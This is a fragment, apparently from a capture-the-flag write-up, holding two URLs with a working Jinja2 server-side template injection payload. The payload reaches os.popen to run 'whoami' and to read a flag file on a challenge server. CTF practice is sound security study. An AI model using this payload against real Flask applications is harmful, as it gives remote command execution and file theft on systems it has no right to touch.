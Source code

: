 
`http://127.0.0.1:5000/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=whoami`

`http://chal.pctf.competitivecyber.club:5555/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=cat%20../flag.txt`
